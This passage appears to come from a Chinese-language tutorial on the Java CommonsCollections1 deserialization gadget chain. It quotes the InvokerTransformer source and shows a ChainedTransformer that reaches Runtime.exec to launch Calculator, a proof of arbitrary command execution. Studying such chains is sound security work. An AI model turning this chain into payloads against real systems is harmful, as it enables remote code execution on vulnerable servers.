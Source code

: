 3. InvokerTransformer

其transform方法实现了通过反射来调用某方法。

``` java
// org/apache/commons/collections/functors/InvokerTransformer.java
public class InvokerTransformer implements Transformer, Serializable {
    ...
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
    ...
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);
                
        } catch (NoSuchMethodException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' does not exist");
        } catch (IllegalAccessException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' cannot be accessed");
        } catch (InvocationTargetException ex) {
            throw new FunctorException("InvokerTransformer: The method '" + iMethodName + "' on '" + input.getClass() + "' threw an exception", ex);
        }
    }
}
```

由这三个transformer组合起来，即可实现任意命令执行。

``` java
// CommonsCollections1.java
public class CommonsCollections1 {
    public static void main(String[] args){
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"open /System/Applications/Calculator.app"})
        });
        chainedTransformer.transform(1);
    }
}
```
